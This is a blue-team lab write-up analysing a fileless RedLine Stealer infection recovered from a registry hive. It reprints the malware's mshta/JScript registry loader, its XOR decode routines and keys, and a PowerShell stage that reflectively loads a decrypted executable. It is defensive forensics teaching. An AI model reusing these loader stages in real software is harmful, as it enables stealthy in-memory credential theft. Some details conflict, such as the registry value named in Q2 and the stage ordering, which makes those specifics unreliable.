

# T1547 Lab

# Table of Contents
- [Context](#context)
- [Scenario](#scenario)
- [Questions](#questions)
- [Attack Chain](#attack-chain)
  * [Attack Tree](#attack-tree)
- [Artifacts](#artifacts)
- [Lab Insights](#lab-insights)

# Context

Lab link: [https://cyberdefenders.org/blueteam-ctf-challenges/t1547/](https://cyberdefenders.org/blueteam-ctf-challenges/t1547/)

Tactics: Persistence, Privilege Escalation, Defense Evasion

Suggested tools: Registry Explorer, dnSpy, CyberChef, JavaScript Deobuscator

# Scenario

A security breach occurred on a corporate network, and a device may have been infected with fileless malware. This malware operates entirely in memory, making it difficult to detect and analyze.

The security team has extracted the `NTUSER.DAT` registry hive from the affected device. Your task is to analyze this file and identify any malicious activities associated with the fileless malware.

# Questions

Q1- To determine how the fileless malware was executed on the device, we need to determine which trusted Windows process it hijacked. What is the name of the Windows-native binary used to run malicious code?

Answer: `mshta.exe`

Reason: Persistence and initial fileless execution were established via the `Run` key at `HKCU\Software\Microsoft\Windows\CurrentVersion\Run` (T1547.001 - Registry Run Keys), last written `2023-07-16 00:37:35 UTC`. The key value invoked `cmd.exe` to launch `mshta.exe` with an inline JavaScript payload (T1059.007 - JavaScript), abusing `mshta.exe` as a signed, Windows-native Living-off-the-Land Binary (LOLBin) to proxy execution and blend in with legitimate system activity (T1218.005 - Mshta).



```jsx
var d6bRt=new ActiveXObject(WScript.shell);
var o2eXl=d6bRt.RegRead(HKCU\\software\\PDFViewer\\Settings);
eval(o2eXl);
```

Q2- Understanding how the malware maintains its presence in the system without a file is crucial for detecting and eradicating the infection. What is the value name of the registry string key that contains the malicious script?

Answer: `PDFViewer`

Reason: Fileless persistence was achieved by storing the second-stage script directly in the registry rather than as a standalone file on disk, under the value `Settings` (`REG_SZ`) within the key `HKCU\Software\PDFViewer`, last written `2023-07-17 22:51:49 UTC` (T1112 - Modify Registry). At execution time, the `mshta.exe` payload identified in Q1 called the `RegRead()` method of its instantiated `WScript.Shell` object to retrieve the value's string data, which was then passed to `eval()` for execution. Because the payload was read directly into memory from the registry and never written to disk as a discrete file, this technique evades file-based detection and satisfies the definition of fileless malware.


Q3- To fully comprehend the attacker's approach in concealing the malware, it is imperative to determine the encryption technique and the key value utilized for decrypting the second stage. What is the exact key value required for decrypting the second stage of the malware?

Answer: `PzVmNVxNG0AxFv05k5PVgdNxlUynMPH9txZ4PqiE5vcTwLvxa`

Reason: Analysis of the second-stage script recovered from the `Settings` value under `HKCU\Software\PDFViewer` (last written `2023-07-17 22:51:49 UTC`) identified a hardcoded decryption key stored in the variable `gsHFf3JWfO`, with the value `PzVmNVxNG0AxFv05k5PVgdNxlUynMPH9txZ4PqiE5vcTwLvxa`. This key is referenced by the script's decoding routine to decrypt an encrypted payload embedded further in the same JScript body. Pairing the fileless, registry-resident payload with a key hardcoded in the script itself, rather than fetched from an external source, keeps the entire decryption chain self-contained in memory with no external network dependency for this stage.

```jsx
2px = "5a1634090a311b36 <SNIP>..."

YZDwG5 = "";
for (Y5JITecq = 0; Y5JITecq < k2px.length; Y5JITecq += 2) {
	YZDwG5 += String.fromCharCode(parseInt(k2px.substr(Y5JITecq, 2), 16));
}

gsHFf3JWfO = "PzVmNVxNG0AxFv05k5PVgdNxlUynMPH9txZ4PqiE5vcTwLvxa"; // The XOR key
yWRHh23aHDjKD = "";
for (Sjuh5ZeqqzXyKS = ofpNn1wsYC7AZaiDa = 0; ofpNn1wsYC7AZaiDa < YZDwG5.length; ofpNn1wsYC7AZaiDa++) {
	yWRHh23aHDjKD += String.fromCharCode(YZDwG5.substr(ofpNn1wsYC7AZaiDa, 1).charCodeAt() ^ gsHFf3JWfO.substr(Sjuh5ZeqqzXyKS, 1).charCodeAt());
	Sjuh5ZeqqzXyKS = (Sjuh5ZeqqzXyKS < gsHFf3JWfO.length - 1) ? Sjuh5ZeqqzXyKS + 1 : 0;
}

eval(yWRHh23aHDjKD);
```

Q4- To fully understand the scope of the fileless malware's payload, we need to find where it is stored. What is the value name of the registry string key that contains the encrypted executable?

Answer: `zorsuhg`

Reason: Continued deobfuscation of the third-stage payload, decoded from Base64, revealed a PowerShell command (`Get-ItemProperty -Path "HKCU:\Software\nsem" -Name "zorsuhg" | Select-Object -ExpandProperty "zorsuhg"`) that retrieves the final encrypted executable stored in the value `zorsuhg` under the key `HKCU\Software\nsem`, last written `2023-07-17 22:34:28 UTC`. This confirms the attacker's fileless persistence extended a further stage, with the actual malicious binary staged as registry-resident data rather than a file on disk, and only reconstituted in memory by PowerShell at execution time.

```jsx
$tiodsf2Gdefdaj= Get-ItemProperty -Path "HKCU:\Software\nsem" -Name "zorsuhg" | Select-Object -ExpandProperty "zorsuhg";
$pqiekvf = [byte[]]$tiodsf2Gdefdaj;$tuievkd23kdi0 = [byte[]](0x61,0x31,0x35,0x38,0x30,0x37,0x64,0x66,0x65,0x33,0x34,0x37,0x65,0x63,0x61,0x61,0x35,0x37,0x62,0x39,0x65,0x32,0x33,0x32,0x61,0x36,0x31,0x31,0x64,0x65,0x30,0x64,0x39,0x36,0x66,0x32,0x64,0x61,0x63,0x36,0x65,0x35,0x31,0x63,0x34,0x39,0x31,0x32,0x31,0x37,0x62,0x35,0x64,0x36);$eBy = @();
for ($i = 0; $i -lt $pqiekvf.Length; $i++) {
$eBy += $pqiekvf[$i] -bxor $tuievkd23kdi0[$i % $tuievkd23kdi0.Length]
}$sc32=[byte[]]$eBy
$bdwrQYis = [System.Convert]::ToBase64String($sc32);
$PEQVDqyts = [System.Convert]::FromBase64String($bdwrQYis);
$assembly = [System.Reflection.Assembly]::Load($PEQVDqyts)
$lqTvcqdoppjds = 
 $assembly.GetTypes().Where({ $_.Name -eq 'Program' }, 'First').
   GetMethod('Main', [Reflection.BindingFlags] 'Static, Public, NonPublic')
$lqTvcqdoppjds.Invoke($null, (, [string[]] @()))
```


Q5- Decrypting the malware's executable will allow us to analyze its behavior. What is the key value used to decrypt the executable?

Answer: `a15807dfe347ecaa57b9e232a611de0d96f2dac6e51c491217b5d6`

Reason: Further deobfuscation of the PowerShell third-stage script, itself decoded from the registry-resident payload at `HKCU\Software\PDFViewer` (last written `2023-07-17 22:51:49 UTC`), revealed a hex-encoded byte array assigned to `$tuievkd23kdi0` that decodes to the decryption key `a15807dfe347ecaa57b9e232a611de0d96f2dac6e51c491217b5d6`. This key is used by the script to decrypt the encrypted executable retrieved from `HKCU\Software\nsem\zorsuhg`. This confirms the attacker again embedded the decryption key directly within the staging script itself, keeping the entire multi-stage decryption chain self-contained and independent of any external key-retrieval infrastructure.

```jsx
$tiodsf2Gdefdaj = Get-ItemProperty -Path "HKCU:\Software\nsem" -Name "zorsuhg" | Select-Object -ExpandProperty "zorsuhg";

$pqiekvf = [byte[]]$tiodsf2Gdefdaj;

$tuievkd23kdi0 = [byte[]](0x61, 0x31, 0x35, 0x38, 0x30, 0x37, 0x64, 0x66, 0x65, 0x33, 0x34, 0x37, 0x65, 0x63, 0x61, 0x61, 0x35, 0x37, 0x62, 0x39, 0x65, 0x32, 0x33, 0x32, 0x61, 0x36, 0x31, 0x31, 0x64, 0x65, 0x30, 0x64, 0x39, 0x36, 0x66, 0x32, 0x64, 0x61, 0x63, 0x36, 0x65, 0x35, 0x31, 0x63, 0x34, 0x39, 0x31, 0x32, 0x31, 0x37, 0x62, 0x35, 0x64, 0x36);
```

Q6- Comparing the hash of the decrypted executable against known threats can confirm its identity and inform our response strategy. What is the MD5 hash of the decrypted executable?

Answer: `F07E946C8273176316CF6D97DC780BD7`

Reason: Decrypted second stage was a PowerShell script that read a further encrypted blob from `HKCU\Software\nsem` value `zorsuhg` (last write `2023-07-17 22:34:28 UTC`) via `Get-ItemProperty`. That blob's decryption key, `a15807dfe347ecaa57b9e232a611de0d96f2dac6e51c491217b5d6`, was embedded as a hex-literal `[byte[]]` array in variable `$tuievkd23kdi0`, decoded via CyberChef "From Hex" (`0x` delimiter). Decryption of the final executable:

- Exported the `zorsuhg` registry value to a binary file (`zorsuhg_export.bin`, ~740KB) and loaded it into PowerShell as a byte array via `[System.IO.File]::ReadAllBytes()`.
- Performed a repeating-key XOR decrypt (`bxor`) against `$tuievkd23kdi0`, writing into a pre-allocated byte array output (`$eBy`) for performance.
- Verified successful decryption by inspecting the first 16 bytes: `4D-5A-90-00-03-00-00-00-04-00-00-00-FF-FF-00-00`, confirming a valid MZ DOS header and therefore a genuine Windows Portable Executable (PE).

The MD5 hash of the decrypted executable is `F07E946C8273176316CF6D97DC780BD7`, confirming a complete, executable PE binary was reconstructed entirely from registry-resident, multi-layer XOR-encrypted data.

```powershell
$tiodsf2Gdefdaj = Get-ItemProperty -Path "HKCU:\Software\nsem" -Name "zorsuhg" | Select-Object -ExpandProperty "zorsuhg";

$pqiekvf = [byte[]]$tiodsf2Gdefdaj;

$tuievkd23kdi0 = [byte[]](0x61, 0x31, 0x35, 0x38, 0x30, 0x37, 0x64, 0x66, 0x65, 0x33, 0x34, 0x37, 0x65, 0x63, 0x61, 0x61, 0x35, 0x37, 0x62, 0x39, 0x65, 0x32, 0x33, 0x32, 0x61, 0x36, 0x31, 0x31, 0x64, 0x65, 0x30, 0x64, 0x39, 0x36, 0x66, 0x32, 0x64, 0x61, 0x63, 0x36, 0x65, 0x35, 0x31, 0x63, 0x34, 0x39, 0x31, 0x32, 0x31, 0x37, 0x62, 0x35, 0x64, 0x36);

$eBy = @();

for ($i = 0; $i -lt $pqiekvf.Length; $i++) {
  $eBy += $pqiekvf[$i] -bxor $tuievkd23kdi0[$i % $tuievkd23kdi0.Length]
}

# Or, fixed preallocation
<#
$eBy = New-Object byte[] $pqiekvf.Length
for ($i = 0; $i -lt $pqiekvf.Length; $i++) {
    $eBy[$i] = $pqiekvf[$i] -bxor $tuievkd23kdi0[$i % $tuievkd23kdi0.Length]
}
#>

PS C:\Users\Administrator\Desktop\Start here> $eBy.GetType()

IsPublic IsSerial Name                                     BaseType
-------- -------- ----                                     --------
True     True     Byte[]                                   System.Array

PS C:\Users\Administrator\Desktop\Start here> $eBy.Length
754176
PS C:\Users\Administrator\Desktop\Start here> [System.BitConverter]::ToString($eBy[0..15])
4D-5A-90-00-03-00-00-00-04-00-00-00-FF-FF-00-00
PS C:\Users\Administrator\Desktop\Start here> [System.IO.File]::WriteAllBytes("C:\Users\Administrator\Desktop\Start here\decrypted.bin", $eBy)
PS C:\Users\Administrator\Desktop\Start here> Get-FileHash .\decrypted.bin -Algorithm MD5

Algorithm       Hash                                                                   Path
---------       ----                                                                   ----
MD5             F07E946C8273176316CF6D97DC780BD7                                       C:\Users\Administrator\Desktop\Start here\decrypted.bin
```

Q7- Identifying the malware family can provide context about the threat actors and their methodologies. What is the name of the malware family associated with this attack based on [tria.ge](http://tria.ge/)?

Answer: `REDLINE`

Reason: Submission of the recovered MD5 hash `F07E946C8273176316CF6D97DC780BD7` to `tria.ge` returned multiple prior detonations of the identical sample, first observed `2023-01-11 19:15 UTC` as `file.exe`, each tagged `redline`, `infostealer`, `spyware`, `stealer`, and `torrentold`, with a maximum threat score of 10 and a "Reported" status across all submissions. This identifies the final in-memory payload of this fileless intrusion as RedLine Stealer, a well-documented commodity information-stealing malware family associated with credential, browser, and cryptocurrency wallet theft. It confirms the intent of the entire multi-stage encrypted registry chain was to reflectively load and execute an infostealer directly in memory, without leaving a file-based footprint.

Q8- Understanding all decryption keys used by the malware can aid in revealing the full scope of the threat. What is the key used to decrypt the second stage of the executable?

Answer: `Bounxcwkdkigednzzwbux`

Reason: Static analysis of the decrypted RedLine Stealer executable using dnSpy (recovered from `HKCU\Software\nsem` value `zorsuhg`, last written `2023-07-17 22:34:28 UTC`) in `dnSpy` identified an internal method, `Array()`, containing a hardcoded ASCII key `Bounxcwkdkigednzzwbux` used to decrypt a further embedded resource via the same repeating-key XOR technique observed throughout this intrusion. This confirms the malware author layered an additional in-binary decryption stage on top of the registry-based encryption chain, meaning the delivered PE is not the final payload itself but a loader that decrypts and reveals a further internal component at runtime using this key.

High-level logic of `Array()`:

- `s = "Bounxcwkdkigednzzwbux"` — hardcodes the ASCII decryption key as a string.
- `Stock.GetBuffer()` — retrieves an encrypted byte buffer from elsewhere in the binary (likely an embedded resource or another obfuscated data blob named `Stock`).
- `Encoding.ASCII.GetBytes(s)` — converts the key string into raw ASCII bytes, exactly the same "string-to-bytes for crypto" pattern discussed earlier in this session.
- The nested `for` loop performs repeating-key XOR: each byte of the encrypted buffer is XOR'd against the corresponding key byte (`bytes[j % bytes.Length]`), with the key wrapping around via modulo once it's shorter than the buffer — same algorithm as the JScript and PowerShell stages, just reimplemented in C#/.NET.
- Results are stored in a `Dictionary<int, byte>` keyed by index, then converted back to a `byte[]` via `.Values.ToArray()` — a slightly unusual/obfuscated way to build an output array (a plain pre-allocated `byte[]` would suffice), likely to make static analysis and pattern-matching signatures harder.
- The outer `for (i < 5)` loop with a `try/catch` and `Thread.Sleep(10s)` on failure is a retry-with-backoff pattern — if `Stock.GetBuffer()` throws (e.g. resource not yet available, or a deliberate anti-analysis/sandbox-evasion delay), it retries up to 5 times with 10-second waits before giving up and returning `null`. This kind of retry loop can also serve as a mild sandbox-evasion tactic, since automated sandboxes with limited detonation time may time out before all 5 retries complete.

```csharp
// WindowsFormsApp52.Stock
// Token: 0x06000005 RID: 5 RVA: 0x000020AC File Offset: 0x000002AC
private static byte[] Array()
{
	string s = "Bounxcwkdkigednzzwbux";
	for (int i = 0; i < 5; i++)
	{
		try
		{
			byte[] buffer = Stock.GetBuffer();
			byte[] bytes = Encoding.ASCII.GetBytes(s);
			Dictionary<int, byte> dictionary = new Dictionary<int, byte>();
			for (int j = 0; j < buffer.Length; j++)
			{
				dictionary.Add(j, bytes[j % bytes.Length] ^ buffer[j]);
			}
			return dictionary.Values.ToArray<byte>();
		}
		catch
		{
			Thread.Sleep(TimeSpan.FromSeconds(10.0));
		}
	}
	return null;
}
```

# Attack Chain

| Time (UTC) | Stage | Detail | MITRE |
| --- | --- | --- | --- |
| `2023-07-16 00:37:35` | Persistence Established | `HKCU\Software\Microsoft\Windows\CurrentVersion\Run` written to launch `cmd.exe /C start mshta.exe` `'javascript:...'` on logon | T1547.001 (Registry Run Keys), T1547 (Boot or Logon Autostart Execution) |
| `2023-07-16 00:37:35`  | Initial Execution | `mshta.exe` invoked as the trusted LOLBIN to host a malicious inline JScript payload via `ActiveXObject("WScript.Shell")` | T1218.005 (Mshta), T1059.007 (JavaScript/JScript) |
| `2023-07-17 22:34:28` | Stage 3 Payload Staged | Encrypted PE executable written to `HKCU\Software\nsem` value `zorsuhg` | T1027 (Obfuscated Files or Information), T1112 (Modify Registry) |
| `2023-07-17 22:51:49` | Stage 2 Script Staged | XOR-encrypted PowerShell script written to `HKCU\Software\PDFViewer` value `PDFViewer`, later read via `RegRead()` and `eval()`'d by the JScript stage | T1027, T1059.001 (PowerShell), T1112 |
| (execution, post-staging) | Stage 2 Decryption | JScript `eval()`'s the decrypted PowerShell script using repeating-key XOR with key `PzVmNVxNG0AxFv05k5PVgdNxlUynMPH9txZ4PqiE5vcTwLvxa` | T1027, T1140 (Deobfuscate/Decode Files or Information) |
| (execution) | Stage 3 Retrieval | PowerShell reads encrypted executable from `HKCU\Software\nsem\zorsuhg` via `Get-ItemProperty` | T1112, T1005 (Data from Local System) |
| (execution) | Stage 3 Decryption | Encrypted PE decrypted via repeating-key XOR using hex-encoded key `a15807dfe347ecaa57b9e232a611de0d96f2dac6e51c491217b5d6`, verified by MZ PE header | T1140, T1027.002 (Software Packing/encryption) |
| (execution) | Reflective Execution | Decrypted PE loaded and executed entirely in memory via `System.Reflection.Assembly`, no file ever written to disk | T1620 (Reflective Code Loading), T1055 (Process Injection, conceptually adjacent) |
| (post-execution) | Malware Identification | MD5 `F07E946C8273176316CF6D97DC780BD7` matched via `tria.ge` to RedLine Stealer (infostealer family) | S0500 (RedLine Stealer, MITRE Software ID) |
| (static analysis, dnSpy) | Internal Loader Logic | RedLine binary's `Array()` method decrypts a further embedded resource in-memory using hardcoded key `Bounxcwkdkigednzzwbux` (repeating-key XOR), with 5x retry/10s sleep anti-failure logic | T1027, T1140, T1497 (Virtualization/Sandbox Evasion — via retry/delay pattern) |

## Attack Tree

```csharp
[Persistence] HKCU\...\CurrentVersion\Run  (Last Write: 2023-07-16 00:37:35 UTC)
└──[Initial Execution] cmd.exe /C start mshta.exe 'javascript:...'  ← T1547.001, T1218.005
   └──[Stage 1: JScript in mshta.exe]
      ├── ActiveXObject("WScript.Shell")
      └── RegRead(HKCU\Software\PDFViewer\Settings)  ← T1059.007
          │
          └──[Stage 2 Source] HKCU\Software\PDFViewer (Value: PDFViewer)  (Last Write: 2023-07-17 22:51:49 UTC)
             └── XOR decrypt, key = `PzVmNVxNG0AxFv05k5PVgdNxlUynMPH9txZ4PqiE5vcTwLvxa`  ← T1027, T1140
                └──[Stage 2: PowerShell Script] (eval()'d from decrypted string)
                   ├── $tuievkd23kdi0 = [byte[]](0x61,0x31,...) → hex-decoded key
                   │      = `a15807dfe347ecaa57b9e232a611de0d96f2dac6e51c491217b5d6`
                   └── Get-ItemProperty -Path "HKCU:\Software\nsem" -Name "zorsuhg"
                       │
                       └──[Stage 3 Source] HKCU\Software\nsem (Value: zorsuhg)  (Last Write: 2023-07-17 22:34:28 UTC)
                          └── XOR decrypt, key = `a15807dfe347ecaa57b9e232a611de0d96f2dac6e51c491217b5d6`  ← T1027.002
                             └──[Stage 3: Decrypted PE]
                                ├── Header verified: 4D-5A-90-00-03-00-00-00-04-00-00-00-FF-FF-00-00 (MZ)
                                ├── [Reflective Load] System.Reflection.Assembly  ← T1620
                                │      └── Executed entirely in memory, no disk artifact
                                ├── [Identification] MD5 F07E946C8273176316CF6D97DC780BD7
                                │      └── tria.ge → RedLine Stealer (infostealer)  ← S0500
                                └── [Internal Loader Logic] Array() method (dnSpy static analysis)
                                       ├── key = `Bounxcwkdkigednzzwbux`
                                       ├── XOR decrypt of Stock.GetBuffer() resource  ← T1027, T1140
                                       └── retry x5 / sleep 10s on failure  ← T1497 (evasion pattern)
```

# Artifacts

| Category | Type | Value |
| --- | --- | --- |
| Registry | Persistence Key | `HKCU\Software\Microsoft\Windows\CurrentVersion\Run` (Last Write: `2023-07-16 00:37:35 UTC`) |
|  | Stage 2 Storage | `HKCU\Software\PDFViewer` — Value: `PDFViewer` (Last Write: `2023-07-17 22:51:49 UTC`) |
|  | Stage 3 Storage | `HKCU\Software\nsem` — Value: `zorsuhg` (Last Write: `2023-07-17 22:34:28 UTC`) |
| Process / Execution | LOLBIN | `mshta.exe` |
|  | Launch Command | `cmd.exe /C start mshta.exe 'javascript:...'` |
|  | Reflective Load | `System.Reflection.Assembly` |
| Encryption Keys | Stage 2 XOR Key | `PzVmNVxNG0AxFv05k5PVgdNxlUynMPH9txZ4PqiE5vcTwLvxa` |
|  | Stage 3 XOR Key | `a15807dfe347ecaa57b9e232a611de0d96f2dac6e51c491217b5d6` |
|  | Internal Loader Key (Array()) | `Bounxcwkdkigednzzwbux` |
| Identification | MD5 (Decrypted Executable) | `F07E946C8273176316CF6D97DC780BD7` |
|  | Malware Family | RedLine Stealer (infostealer) |

# Lab Insights

- **Fileless doesn't mean file-free forever, it means file-free until the analyst forces it out.** Every "in-memory only" stage in this chain — the registry-resident scripts, the encrypted PE — only became analyzable once it was deliberately exported to disk (registry export, `WriteAllBytes`). The evasion value of fileless techniques is entirely about denying AV/EDR a static artifact to scan during execution, not about being permanently unrecoverable to a DFIR analyst with hive access.
- **Every encryption layer in this lab was symmetric and self-contained, which is a tell, not just a technicality.** Three separate stages, three separate keys, and every single one was hardcoded directly in the preceding stage's code rather than fetched from C2. That design choice sacrifices operational security (no key rotation, no remote kill-switch over decryption) purely to guarantee the payload runs standalone even if C2 infrastructure is dead — a common signature of commodity/off-the-shelf malware kits versus bespoke APT tooling.
- **Layered obfuscation multiplies analyst effort linearly, not exponentially, once you have a repeatable decode method.** JScript → PowerShell → PE was three different languages and three different XOR keys, but the underlying technique (repeating-key XOR, key hardcoded nearby) was identical every time. Recognizing the pattern after stage one made stages two and three mechanical rather than novel puzzles — this is the practical argument for building a personal "decode toolkit" (CyberChef recipes, PowerShell snippets) rather than treating each stage as a fresh reverse-engineering problem.
- **Registry hives are state snapshots, not activity logs — they answer "what" and "when last modified," never "how" or "by whom."** The Get-ItemProperty line that read zorsuhg proved retrieval, not creation, and no amount of staring at NTUSER.DAT could surface the original write event. This is a hard boundary of hive-only forensics: full attack reconstruction requires pairing registry artifacts with process/event telemetry (Sysmon, PowerShell Script Block Logging), which this lab's evidence scope deliberately excluded.
- **Dead-looking code and legitimate-looking round-trips (Base64 encode-then-immediately-decode) are cheap, deliberate friction against analysts, not mistakes.** Distinguishing genuine no-ops from meaningful logic required tracing variable usage forward, not assuming complexity implies purpose — a discipline worth applying by default when reading any obfuscated sample, since obfuscator tooling generates this kind of filler automatically and cheaply.